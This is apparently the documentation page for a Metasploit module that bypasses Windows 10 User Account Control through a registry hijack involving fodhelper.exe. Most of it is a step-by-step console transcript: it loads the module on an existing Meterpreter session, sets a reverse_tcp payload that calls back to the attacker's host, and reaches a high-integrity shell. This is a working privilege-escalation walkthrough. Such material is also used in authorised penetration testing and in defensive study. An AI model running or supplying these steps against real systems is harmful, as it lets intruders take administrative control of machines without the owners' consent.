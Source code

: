 ## Intro

  This module will bypass Windows 10 UAC by hijacking a special key in the Registry under
  the current user hive, and inserting a custom command that will get invoked when
  the Windows fodhelper.exe application is launched. It will spawn a second shell that has the UAC
  flag turned off.

  This module modifies a registry key, but cleans up the key once the payload has
  been invoked.

  The module does not require the architecture of the payload to match the OS. If
  specifying EXE::Custom your DLL should call ExitProcess() after starting your
  payload in a separate process.

## Usage

  You'll first need to obtain a session on the target system.  
  Next, once the module is loaded, one simply needs to set the ```payload``` and ```session``` options.  
  

##Scenario


```
msf > 
[*] Sending stage (1189423 bytes) to 192.168.50.4
[*] Meterpreter session 11 opened (192.168.50.1:4444 -> 192.168.50.4:1654) at 2017-05-22 19:10:43 +0100

msf > sessions -i 11
[*] Starting interaction with 11...

meterpreter > shell
Process 9496 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\sasha\Desktop>whoami /all | findstr /C:"Mandatory Label"
whoami /all | findstr /C:"Mandatory Label"
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192                                                                                     

C:\Users\sasha\Desktop>exit
exit
meterpreter > 
Background session 11? [y/N]  
msf > use exploit/windows/local/bypassuac_fodhelper 
msf exploit(bypassuac_fodhelper) > set SESSION 11
SESSION => 11
msf exploit(bypassuac_fodhelper) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf exploit(bypassuac_fodhelper) > set target 0
target => 0
msf exploit(bypassuac_fodhelper) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(bypassuac_fodhelper) > run

[*] Started reverse TCP handler on 192.168.50.1:4445 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\WINDOWS\system32\cmd.exe /c C:\WINDOWS\System32\fodhelper.exe
[*] Sending stage (957487 bytes) to 192.168.50.4
[*] Meterpreter session 12 opened (192.168.50.1:4445 -> 192.168.50.4:1655) at 2017-05-22 19:12:03 +0100
[*] Cleaining up registry keys ...

meterpreter > shell
Process 4076 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami /all | findstr /C:"Mandatory Label"
whoami /all | findstr /C:"Mandatory Label"
ERROR: Unable to get user claims information.
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288                                                                                                 

C:\WINDOWS\system32>

```
